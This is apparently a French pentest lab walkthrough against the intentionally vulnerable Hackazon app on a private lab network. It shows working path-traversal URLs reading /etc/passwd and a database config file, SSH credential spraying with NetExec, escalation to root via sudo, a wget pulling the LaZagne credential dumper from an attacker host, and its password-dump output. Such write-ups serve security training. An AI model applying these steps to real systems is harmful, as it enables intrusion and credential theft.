 <ins>1.Énumération</ins>

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.75
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.75...100%
[+] Scan Nmap 192.168.56.75...100%
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.75-tcp.html        |
==========================================================
```

&nbsp;

<span style="color: #dddddd;">⚡</span> **ZAP**

Rapport après fin de scan

![Capture du 2025-02-09 18-32-13](https://github.com/user-attachments/assets/f7a15fbf-7606-4783-9636-25fb2b55b3a2)

&nbsp;

Traverser de chemin

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /etc/passwd](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/etc/passwd)

![path_traversal](https://github.com/user-attachments/assets/e91a4263-7b0e-4f02-9d97-60b3d5710e88)


&nbsp;

Allons voir le fichier `db.php`

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /var/www/hackazon/assets/config/db.php](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/var/www/hackazon/assets/config/db.php)

![injection_commande](https://github.com/user-attachments/assets/c43652d6-7621-4f0e-91c7-e967294ca101)

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test en `SSH` des identifiant trouver

```
┌─[parrot@parrot]─[~]
└──╼ $nxc ssh 192.168.56.75 -u hackazon -p hackazon --sudo-check
SSH         192.168.56.75   22     192.168.56.75    [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
SSH         192.168.56.75   22     192.168.56.75    [+] hackazon:hackazon (Pwn3d!) Linux - Shell access!
```

&nbsp;

L’utilisateur `hackazon` fais parti du groupe `sudo`

```
hackazon@ubuntu:~$ sudo -s
[sudo] password for hackazon: 
root@ubuntu:~# 
```

&nbsp;

****<span style="color: #dddddd;">👾</span>** LaZagne**

Téléchargement du fichier zip

```
root@ubuntu:~# wget 192.168.56.104:8080/LaZagne-2.4.6.zip
--2025-02-09 09:06:38--  http://192.168.56.104:8080/LaZagne-2.4.6.zip
Connecting to 192.168.56.104:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 705000 (688K) [application/zip]
Saving to: 'LaZagne-2.4.6.zip'

LaZagne-2.4.6.zip                               100%[=====================================================================================================>] 688.48K  --.-KB/s    in 0.008s  

2025-02-09 09:06:38 (79.1 MB/s) - 'LaZagne-2.4.6.zip' saved [705000/705000]
```

&nbsp;

Unzip

```
root@ubuntu:~# unzip LaZagne-2.4.6.zip
Archive:  LaZagne-2.4.6.zip
3ed06c785c417a77c2bc9a09987060425249036d
   creating: LaZagne-2.4.6/
```

&nbsp;

Exécution

```
root@ubuntu:~/LaZagne-2.4.6/Linux# python3 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: hackazon
Password: hackazon

------------------- Mimipy passwords -----------------

[+] Password found !!!
Process: /usr/sbin/sshd
Login: hackazon
Password: hackazon


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.5735633373260498
```

&nbsp;

Cred trouver

| Users | Password |
| --- | --- |
| hackazon | hackazon |
